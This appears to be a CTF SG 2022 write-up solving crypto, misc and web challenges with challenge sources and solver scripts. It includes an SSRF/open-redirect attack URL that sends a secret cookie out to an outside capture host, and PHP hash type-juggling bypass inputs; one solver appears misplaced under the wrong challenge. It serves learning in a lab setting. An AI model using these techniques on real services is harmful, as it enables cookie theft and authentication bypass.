

# CTF SG 2022 – Challenges (those that i like)

## Challenge 1: Chopsticks 1 & 2 (Misc) [First Blooded!]

### TLDR

- Play chopsticks against AI to win, only die when a hand has 7 fingers
- First level needs both hands to split, Second level can split with just one hand
- Just open two terminals and play against each other

### Solver

```python
from libnum import n2s,s2n

m1 = b"CTFSG{1}"
m2 = b"CTFSG{2}"

from pwn import *

host = "chals.ctf.sg"
port = 10101
p = remote(host, port)
p.recvuntil(b">")
p.sendline(m1)
c1 = int(p.recvline().decode('utf-8').strip())
print("Got c1:", c1)
p.recvuntil(b">")
p.sendline(m2)
c2 = int(p.recvline().decode('utf-8').strip())
print("Got c2:", c2)

m1 = s2n(m1)
m2 = s2n(m2)
e = 65537

#this part using sage
n = gcd(m1^e - c1, m2^e - c2)
print(n2s(n))
```

### Learning Points

- Actually no real learning points, but reading up on the minimax algo for playing chopsticks was real interesting

## Challenge 2: Flag Secure Algorithm

### TLDR

- You can send in two msg to an oracle that will encrypt it using the flag as a modulus and return the cipher text
- The msg you send in is limited to a Unicode flag or a string that is in the format `CTFSG{xxx}`
- Just send in two valid messages, and find the GCD between (m1^e - c1, m2^e - c2) which will be a multiple of N
- Just keep sending and try decrypting the GCD until you get lucky and its not a multiple of N

### Challenge Script

```python
from functools import reduce
import random
import string

def encod(s, o=0): return reduce(lambda a, b: a*256+b, map(ord, s), 0)

flag = '<CENSORED>' + '<SALT>'

def is_flag(c):
    return ((c[:6] == 'CTFSG{' and c[-1] == '}') or "\U0001F1E6\U0001F1E8" <= c <= "\U0001F1FF\U0001F1FC")

banner = 'banner'

if __name__ == '__main__':
    print(banner)
    print()
    for _ in range(2):
        text = input('Enter flag\n>')
        if not is_flag(text): break  # KEK
        print(pow(encod(text), 65537, encod(flag)))  # Encrypt our flag with the participant's flag!
```

### Solver

No need for solver, basic RSA decryption once you find the gcd

### Learning Points

- String comparison with unicode characters works really funkily

```python
"\U0001F1E6\U0001F1E8" <= c <= "\U0001F1FF\U0001F1FC"

#is equivalent to
"🇦🇨" <= c <="🇿🇼"
```

- this was equivalent to `🇦🇨 <= c <=🇿🇼`
- any normal string will always be less than that flag
- 🇦🇨 with any ascii string appended to it would always be a valid option regardless of how long the subsequent msg is
- My original idea was to use [this](https://crypto.stackexchange.com/questions/43583/deduce-modulus-n-from-public-exponent-and-encrypted-data) and craft a msg such that the first msg was something like `🇦🇨abcd_random_padding` and the second one was `CTFSG{blah blah}` and make it such that the second message was a perfect power of the other, i.e. m1^x = m2 and recover it this way.
- But I struggled a bit too hard to craft such a message but just realised with the known exponent, this step is not necessary

## Challenge 3: XOR is not that hard (Crypto)

### TLDR

- Given a very long encrypted file (1048576 bytes to be exact), and a particular alphabet, we are to recover the plaintext
- Kasiski and Frequency Analysis would not be useful as it is a random string of plaintext
- For each possible key lengths, test a particular byte of key and xor it with the plaintext in the following manner

```
guess that key length = 16, and guessed byte (0-255)
loop over pt[0], pt[16], pt[32] etc. xor it with my guessed first byte of the key
if all of the resultng decryption is in alphabet, then the correct key length has been found
```

- Using the given key, brute force each byte of the key and recover plaintext

### Challenge Source

```python
import os
import string
import random
from itertools import cycle
from hashlib import sha1

allowed_chars = string.ascii_lowercase + '_- .!?'
allowed_chars = allowed_chars.encode('utf-8')

xor_enc = lambda pt,key: [x^y for x,y in zip(pt, cycle(key))]

pt  = [allowed_chars[i&31] for i in os.urandom(0x100000)]
key = os.urandom(random.randint(10,0x1000))

ct = xor_enc(pt, key)

open('flag', 'w').write("CTFSG{%s}"%sha1(bytes(pt)).hexdigest())
open('ct', 'wb').write(bytes(ct))
```

### Solver

```python
from hashlib import sha1
import string

with open("ct", "rb") as f:
    enc_numbers = f.read()


allowed_chars = string.ascii_lowercase + '_- .!?'
allowed_chars = allowed_chars.encode('utf-8')


def multiplyKey(ct, k):
    while len(k) < len(ct):
        k += k
    k = k[:len(ct)]
    return k

def check_keychar_validity(ciphertext, k,index, keylength):
    for i in range(index,len(ciphertext), keylength):
        char = chr(ciphertext[i] ^ k)
        if char.encode('utf-8') not in allowed_chars: return False
    return True

def fast_exhaustive_srch(ciphertext,subblock, key_length):
    key = ""
    for i in range(256):
        if check_keychar_validity(ciphertext, i,subblock, key_length):
            key += chr(i)
        else:
            continue
    return key

def getKeyLength():
    for j in range(10,4096):
        key = fast_exhaustive_srch(enc_numbers, 0, j)
        if(key):
            print("Possible key length of ", j)

#1596, 3192
def getKey(key_len):
    key = ""
    for i in range(key_len):
        result = fast_exhaustive_srch(enc_numbers,i, key_len)
        if(not result): print(i)
        key += result
    assert len(key) == key_len
    return key


def real_decrypt(ciphertext, k):
    k = multiplyKey(ciphertext, k)
    plaintext = ""
    for i in range(len(ciphertext)):
        plaintext += chr(ciphertext[i] ^ ord(k[i]))
        # plaintext += chr(ord(ciphertext[i]) ^ ord(k[i]))
    return plaintext


def solve(length):
    real_key = getKey(length)
    decrypted = real_decrypt(enc_numbers, real_key).encode('utf-8')
    pt = bytes(list(decrypted))
    flag = "CTFSG{%s}"%sha1(bytes(pt)).hexdigest()
    print(flag)


# print(real_decrypt(enc_numbers, 254))
#get key lengths of 1596 and 3192
# getKeyLength()

key_len = 1596
solve(key_len)
```

### Learning Points

- Really cool way to do frequency analysis given a long enough cipher text and a specific alphabet

## Challenge 4: Don't touch my Flag (Web)

### TLDR

- There are 2 links available, one for the proxy and the backend
- Objective is to steal the secret cookie from the proxy and make a request to the backend with the cookie
- Backend does not sanitise its url parameters properly so you can induce SSRF and steal cookie with a tool like ngrok or beeceptor

### Challenge Source

#### Backend (app.py)

```python
from flask import Flask, make_response, request, redirect
app = Flask(__name__)

with open("/run/secrets/backend_secret") as f:
    secret = f.read().strip()

with open("/run/secrets/flag") as f:
    flag = f.read().strip()


@app.route("/login")
def login():
    next_uri = request.args.get("next", "/")

    if request.cookies.get("secret") == secret:
        return redirect(next_uri)

    if request.args.get("secret") == secret:
        resp = make_response(redirect(next_uri))
        resp.set_cookie("secret", secret)

        return resp
    else:
        return ":("


@app.route("/flag")
def get_flag():
    if request.cookies.get("secret") != secret:
        return "\N{Black Flag}"

    return flag


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True)
```

#### Proxy (app.py)

```python
import os
import re
import urllib
import requests
from flask import Flask, request, make_response
app = Flask(__name__)


def censor(text):
    return re.sub(r".", "*", text)


with open("/run/secrets/backend_secret") as f:
    secret = f.read().strip()


@app.route("/get")
def get():
    uri = request.args.get("uri", "/")
    full_url = urllib.parse.urljoin(os.environ["BACKEND_URL"], uri)

    r = requests.get(full_url, cookies={
        "secret": secret
    })
    if r.status_code != 200:
        return f"Request failed: received status code {r.status_code}"

    censored = censor(r.text)
    return censored


@app.route("/")
def index():
    return """
Heres your flag: <span id="flag"></span>
<script>
fetch("/get?uri=/flag")
    .then((res) => res.text())
    .then((flag) => document.querySelector("#flag").innerText = flag);
</script>
"""


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True)

```

### Solver

Note the code here in proxy

```python
uri = request.args.get("uri", "/")
full_url = urllib.parse.urljoin(os.environ["BACKEND_URL"], uri)

r = requests.get(full_url, cookies={
    "secret": secret
})
```

versus the code here in the backend

```python
@app.route("/login")
def login():
    next_uri = request.args.get("next", "/")

    if request.cookies.get("secret") == secret:
        return redirect(next_uri)

    if request.args.get("secret") == secret:
        resp = make_response(redirect(next_uri))
        resp.set_cookie("secret", secret)

        return resp
    else:
        return ":("
```

Basically while the proxy's `/get` api cleans the uri passed to it with

```python
full_url = urllib.parse.urljoin(os.environ["BACKEND_URL"], uri)
```

the backend's `/login` does not

```python
next_uri = request.args.get("next", "/")
```

Thus we can do a bunch of redirects into our listening http server with the request

```
http://chals.ctf.sg:40101/get?uri=/login?next=/login?next=https://asdfasdfasdf.free.beeceptor.com
```

This uri does

1. redirect proxy to backend's `/login`
2. cause backend to make a request to `https://asdfasdfasdf.free.beeceptor.com` with the cookies appended to its request headers and steal the cookie from there



### Learning Points

- v fun with proxy

## Challenge 5: Wildest Dreams Part 2 (Web)

### TLDR

- Just get two strings that evaluate to a string that starts with "0e..." for MD5 "collision" from PHP type juggling

### Solver

```
http://chals.ctf.sg:40401/1989.php?i1=2703428329hello&i2=3112336944hello
```

### Learning Points

- Get the hashes from [here](https://github.com/spaze/hashes)
